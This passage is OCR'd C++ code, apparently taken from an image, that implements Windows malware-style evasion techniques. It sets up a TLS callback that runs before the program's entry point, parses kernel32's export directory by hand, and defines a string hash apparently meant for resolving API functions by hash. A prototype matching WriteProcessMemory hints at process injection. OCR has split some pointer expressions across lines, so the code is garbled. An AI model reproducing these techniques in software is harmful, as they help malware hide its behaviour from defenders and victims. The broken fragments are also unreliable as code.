 ```cpp 
    LPCVOID lpBuffer,
    SIZE_T  nSize,
    SIZE_T* lpNumberOfBytesWritten
    );

// Creating a segments for the function 
#ifdef _WIN64
#pragma const_seg(".CRT$XLB")
EXTERN_C const
#else
#pragma data_seg(".CRT$XLB")
EXTERN_C
#endif

// setting TLS entry to tls_callback1
PIMAGE_TLS_CALLBACK tls_callback_func = (PIMAGE_TLS_CALLBACK)tls_callback1;

#ifdef _WIN64
#pragma const_seg()
#else
#pragma data_seg()
#endif 

 
DWORD getHashFromString(char* string) {
    size_t stringLength = strnlen_s(string, 50);
    DWORD hash = 0x35;
    for (size_t i = 0; i < stringLength; i++) {
        hash += (hash * 0xab10f29f + string[i]) & 0xffffff;
    }
    return hash;
}


// CRT$XLB segment function implementation 
void tls_callback1(PVOID hModule, DWORD dwReason, PVOID pContext) {

    if (dwReason == DLL_PROCESS_ATTACH) {
       
        PDWORD functionAddress = (PDWORD)0;
        HMODULE libraryBase = LoadLibraryA("kernel32");

		// Locating the Export Directory
        PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)libraryBase;
        PIMAGE_NT_HEADERS imageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)libraryBase + dosHeader-
        >e_lfanew);

        DWORD_PTR exportDirectoryRVA = imageNTHeaders-
        >OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
        PIMAGE_EXPORT_DIRECTORY imageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)
        ((DWORD_PTR)libraryBase + exportDirectoryRVA);

        // Get RVAs to exported function
        PDWORD addresOfFunctionsRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfFunctions);
        PDWORD addressOfNamesRVA = (PDWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfNames);
        PWORD addressOfNameOrdinalsRVA = (PWORD)((DWORD_PTR)libraryBase + imageExportDirectory-
        >AddressOfNameOrdinals);

        for (DWORD i = 0; i < imageExportDirectory->NumberOfFunctions; i++) {

            DWORD functionNameRVA = addressOfNamesRVA[i];
```